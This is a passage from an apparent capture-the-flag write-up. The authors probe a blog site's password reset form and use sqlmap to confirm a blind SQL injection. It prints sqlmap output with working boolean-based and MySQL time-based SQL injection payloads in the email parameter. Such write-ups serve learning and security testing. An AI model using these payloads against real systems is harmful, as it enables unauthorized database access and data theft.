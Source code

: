 We registered a new user and logged in but found nothing than useless blog posts written by some sort of an `AI`.

![](images/2024-04-13_15-06_register.png)

We played around with the `password reset` option until we started looking for attacks like `SQL Injection (SQLi)`.

![](2024-04-13_15-06_password_reset.png)

## Boolean-Based Blind SQL Injection (SQLi)

At first we tried basic stuff using `sqlmap` but at some point, `Yeeb` got a hit for a `boolean-based blind SQL Injection` and we updated our commands, to dump the database.

```c
<---CUT FOR BREVITY --->  
[19:20:07] [INFO] checking if the injection point on (custom) POST parameter '#1*' is a false positive                                                     
(custom) POST parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N]                                                        
sqlmap identified the following injection point(s) with a total of 739 HTTP(s) requests:                                                                   
---

Parameter: #1* ((custom) POST)                                                                                                                             
    Type: boolean-based blind                                                                                                                              
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)                                                                           
    Payload: _token=1vm38trtTWSsqEyha1W8pA01u2WN1nMP7rPjftIn&email=yeeb@yeeb.xyz' AND 9578=(SELECT (CASE WHEN (9578=9578) THEN 9578 ELSE (SELECT 1338 UNION
 SELECT 1438) END))-- PYsz                                                                                                                                 
    Type: time-based blind                                                                                                                                 
    Title: MySQL < 5.0.12 AND time-based blind (BENCHMARK)                                                                                                 
    Payload: _token=1vm38trtTWSsqEyha1W8pA01u2WN1nMP7rPjftIn&email=yeeb@yeeb.xyz' AND 6611=BENCHMARK(5000000,MD5(0x785a694c))-- QyVf
```